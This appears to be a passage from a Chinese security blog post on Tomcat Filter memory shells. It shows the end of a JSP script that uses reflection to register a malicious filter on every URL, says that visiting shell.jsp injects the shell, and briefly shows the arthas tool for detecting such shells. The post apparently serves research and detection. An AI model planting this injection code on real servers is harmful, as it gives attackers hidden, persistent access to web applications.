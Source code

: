 ```java


            }

            @Override
            public void destroy() {
                Filter.super.destroy();
            }
        };
        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(filterName);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(filterName);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());
        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
        hashMap.put(filterName,applicationFilterConfig);
        response.getWriter().println("inject successfully");
    }
%>
```

代码都很容易理解了，就是按照上面的思路进行构造。

访问shell.jsp即可成功注入内存马：

![image-20211102201204073](Tomcat-Filter内存马.assets/image-20211102201204073.png)

![image-20211102201216282](Tomcat-Filter内存马.assets/image-20211102201216282.png)





# 内存马的检测工具

arthas：https://arthas.aliyun.com/arthas-boot.jar



```shell
D:\this_is_feng\CTF\tools>java -jar arthas-boot.jar
[INFO] arthas-boot version: 3.5.4
[INFO] Process 14788 already using port 3658
[INFO] Process 14788 already using port 8563
[INFO] Found existing java process, please choose one and input the serial number of the process, eg : 1. Then hit ENTER.
* [1]: 14788 org.apache.catalina.startup.Bootstrap
  [2]: 22768 org.jetbrains.jps.cmdline.Launcher
  [3]: 24208 org.jetbrains.idea.maven.server.RemoteMavenServer36
  [4]: 2832 Behinder.jar
  [5]: 22808
  [6]: 5816 burpsuite_pro_v2021.8.jar
  [7]: 23436 org.jetbrains.jps.cmdline.Launcher
  [8]: 4092
1
```